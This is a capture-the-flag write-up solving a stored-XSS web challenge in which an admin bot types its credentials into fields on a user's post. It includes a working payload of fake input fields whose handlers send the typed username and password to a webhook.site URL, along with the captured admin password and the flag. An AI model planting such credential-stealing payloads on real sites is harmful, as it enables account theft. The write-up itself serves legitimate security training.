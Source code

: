 Title: XSS

Decription:
```
I really hate script kiddies... There was one guy recently going around talking about his new website. All he did was copy my website!!! >:(

Now all he does all day is look at the new posts people send him... 
He even announced that he uses a password autofill manager to make sure no one steals his creds and views his own post.
We need to teach these script kiddies a lesson!

btw you can sign up for an account just by logging in with your new creds (that's how kool my site is)

Link: http://alpha.8059blank.ml:4003
Mirror: http://beta.8059blank.ml:4003

Author: Lucas
```

Given hint: Do read through the bot's code and identify which nodes the Selenium driver looks for, and find a way to extract the input to a webhook

Files given: https://github.com/Coder-Here/HACK-AC-2022-CTF/blob/main/Web/XSS/dist.zip

the bot.py code:

```
from threading import Thread
from os import getenv

from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.firefox.options import Options
from selenium.webdriver.firefox.service import Service

USERNAME = getenv('USERNAME')
PASSWORD = getenv('PASSWORD')

class Bot(Thread):
    def __init__(self, uuid):
        Thread.__init__(self)
        self.uuid = uuid

    def run(self):
        options = Options()
        options.headless = True
        driver = webdriver.Firefox(service=Service('./geckodriver'), options=options)
        driver.get(f'http://localhost:5000/render/{self.uuid}')
        try:
            username = driver.find_element(By.ID, 'username')
            assert username.tag_name == 'input'
            password = driver.find_element(By.ID, 'password')
            assert password.tag_name == 'input'
        except:
            pass
        else:
            username.send_keys(USERNAME)
            username.send_keys(Keys.ENTER)
            password.send_keys(PASSWORD)
            password.send_keys(Keys.ENTER)
        finally:
            driver.quit()

```

We can grab the admin password when the bot enters them at

```
            username.send_keys(USERNAME)
            username.send_keys(Keys.ENTER)
            password.send_keys(PASSWORD)
            password.send_keys(Keys.ENTER)
```

Using XSS by entering script into the post box, with webhook. Go to https://webhook.site/ and get your specific id.

![image](https://user-images.githubusercontent.com/63996033/197471375-52854289-bff2-4b35-aa18-f606f2b30c90.png)

Use this code and post it.

```
<input id = "username" onkeypress="if(event.keyCode == 13){const http=new XMLHttpRequest();http.open('GET', 'https://webhook.site/<YOUR ID>?hi='+document.getElementById('username').value);http.send();}" /> 
<input id = "password" onkeypress="if(event.keyCode == 13){const http=new XMLHttpRequest();http.open('GET', 'https://webhook.site/<YOUR ID>?hi2='+document.getElementById('password').value);http.send();}" /> 
```

In app.py, there is this code that will trigger the bot to enter the password.

```
@app.route('/visit/<uuid>')
def visit(uuid):
    thread = Bot(uuid)
    thread.start()
    return 'very interesting post, from that i\'ve gotten your ip and will now proceed to HACK you!!!!!!!!!!!!!!!!!!!!'
```

Therefore, we need to go to /visit/<uuid>

First we need to get our uuid by looking in the cookies at devtools -> application:

![image](https://user-images.githubusercontent.com/63996033/197473180-37aef8df-8031-4246-9b14-292f01871669.png)

In my case, UUID = e04de7be-9192-4b60-bb48-2d441b808b66

It will show us this when we go to the /visit/e04de7be-9192-4b60-bb48-2d441b808b66

![image](https://user-images.githubusercontent.com/63996033/197473289-6547a03b-c908-43a3-aabe-64322330f418.png)

This will trigger the bot to input the password which will be caught by the webhook.

![image](https://user-images.githubusercontent.com/63996033/197473484-7f73d17f-dd4e-43de-a4a8-1e490700604b.png)
![image](https://user-images.githubusercontent.com/63996033/197473518-5c9c1389-ea0d-415f-8924-d562cf63ef5a.png)

There we have it. The webhook shows the username and password. admin:eNkfeunrNgVCe9xR3Xv4HeVw5Kx2VBC7

Now we login again as admin: Delete the uuid cookie which requires you to login again

![image](https://user-images.githubusercontent.com/63996033/197473717-b4e42394-337b-4a8c-85da-6090050e255c.png)

In app.py, we can see that it will show us the flag when we go to /render/<uuid> when the uuid is that of the admin.

```
@app.route('/render/<uuid>')
def render(uuid):
    with sqlite3.connect('./db') as cnx:
        cursor = cnx.cursor()
        cursor.execute('SELECT post FROM users WHERE uuid = ?', (uuid,))
        if (post := cursor.fetchone()):
            return post[0]
        else:
            return redirect('/')

```

Let's get the uuid of admin first: a68451d1-9041-4f56-9cb8-1a849ad115b8

![image](https://user-images.githubusercontent.com/63996033/197474201-59f46818-da5a-45fc-87e0-4b48bd53b879.png)

Going to /render/<uuid> with uuid of admin,it gives us the flag:

![image](https://user-images.githubusercontent.com/63996033/197474337-501694bf-9788-4a38-960c-93532da0d908.png)

Flag: ACSI{br0ws3r_p4ssw0rd_m4nag3rs_4r3_f0r_scr1pt_k1dd135}
